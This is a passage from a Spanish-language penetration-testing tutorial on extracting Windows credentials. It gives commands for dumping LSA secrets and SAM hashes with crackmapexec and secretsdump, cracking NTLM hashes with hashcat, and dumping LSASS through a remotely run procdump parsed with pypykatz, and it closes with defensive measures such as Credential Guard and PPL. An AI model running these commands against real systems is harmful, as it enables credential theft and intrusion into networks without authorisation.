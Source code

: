 Dump de LSASS:

```bash
crackmapexec smb 192.168.1.100 -u gustavo -p MiContraseña123 --lsa
```

---

### 🧪 Ejemplo completo real

1. Estás en Kali y tienes las credenciales de un admin de Windows:

   - Usuario: `gustavo`
   - IP del host: `192.168.1.100`
   - Contraseña: `MiContraseña123`

2. Ejecutas desde Kali:

```bash
secretsdump.py gustavo:MiContraseña123@192.168.1.100
```

Y obtienes:

```
admin:1000:aad3...:8846f7eaee8fb117ad06bdd830b7586c:::
```

3. Usas Hashcat:

```bash
hashcat -m 1000 hash.txt rockyou.txt
```

4. Para LSASS:

- Subes `procdump.exe`
- Lo ejecutas remotamente con `smbexec.py`
- Descargas `lsass.dmp`
- Analizas con:

```bash
pypykatz lsa minidump lsass.dmp
```

Y ves contraseñas en claro.

---

### 🔒 ¿Cómo protegerse?

- Usa **Credential Guard** para proteger LSASS.
- Aplica el modo PPL (Protected Process Light).
- No uses cuentas con privilegios elevados todo el tiempo.
- Usa EDRs que bloqueen procdump y mimikatz.
- Revisa logs de acceso remoto y volcado de memoria.

---

### 🧠 Resumen
